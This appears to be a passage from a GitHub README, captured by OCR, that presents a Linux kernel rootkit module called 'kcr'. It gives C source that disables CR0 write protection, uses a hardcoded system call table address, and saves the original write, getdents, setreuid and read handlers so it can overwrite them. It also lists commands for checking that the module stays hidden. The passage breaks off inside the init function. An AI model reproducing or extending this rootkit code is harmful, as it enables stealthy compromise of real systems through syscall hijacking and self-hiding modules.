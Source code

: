     
    #define PROT_ENABLE write_cr0(read_cr0() | 0x10000)      // CR0 protection Enabled
    #define PROT_DISABLE write_cr0(read_cr0() & (~ 0x10000)) // CR0 protection Disabled


Here are several snippets of main flow.

S1 gets the fixed system call table address and the addresses of the original system calls.
S2 initializes the module with overwriting original system calls
S3 demonstrates hiding/revealing this module itself
S4 restores manipulated system calls to the original ones

For S3, we have tested to find the root module in kernel with various attempts.

    
    # lsmod | grep kcr
    # modprobe
    # cat /proc/modules | grep kcr
    # cat /proc/kallsyms | grep "\[kcr\]"
    # ls -la /sys/module | grep kcr


a. [S1] Getting system call table address

    
    // System call table adddress
    static unsigned long *sys_call_table = (unsigned long *) 0xffffffff81801300;
    
    // Get the addresses of the original system calls
    asmlinkage long (*original_write)(unsigned int, const char*, size_t);
    asmlinkage long (*original_getdents)(unsigned int, struct linux_dirent64*, unsigned int);
    asmlinkage long (*original_setreuid)(uid_t, uid_t);
    asmlinkage long (*original_open)(const char*, int, int);
    asmlinkage long (*original_read)(unsigned int, char*, size_t);


b. [S2] Overwriting original system calls

    
    static int 
    __init init_mod(void){
    	
    	misc_register(&kcr);
    	
    	// Set system call table to be writable by changing cr0 register
    	PROT_DISABLE;
    	
    	// Get original system call addr in asm/unistd.h
    	original_write = (void *)sys_call_table[__NR_write];		// __NR_write 64
    	original_getdents = (void *)sys_call_table[__NR_getdents];	// __NR_getdents64 61
    	original_setreuid = (void *)sys_call_table[__NR_setreuid];	// __NR_setreuid 145
    	original_read = (void *)sys_call_table[__NR_read];		// __NR_open 63
    	